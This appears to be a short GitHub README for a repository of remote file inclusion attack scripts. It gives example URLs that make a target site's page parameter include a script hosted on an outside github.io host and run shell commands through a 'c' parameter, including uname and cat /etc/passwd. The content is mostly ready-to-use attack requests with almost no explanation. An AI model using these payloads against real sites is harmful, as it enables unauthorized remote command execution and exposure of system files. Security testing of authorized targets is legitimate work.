 # File-Inclusion-Codes

This repository contains source codes for testing file inclusion vulnerability in sites.

include_system_test.txt
If you see something like include() in error then you can use this script

https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname
https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=uname -a
https://vulnerablesite.com/?page=https://captureuniverse.github.io/File-Inclusion-Codes/include_system.txt&c=cat /etc/passwd
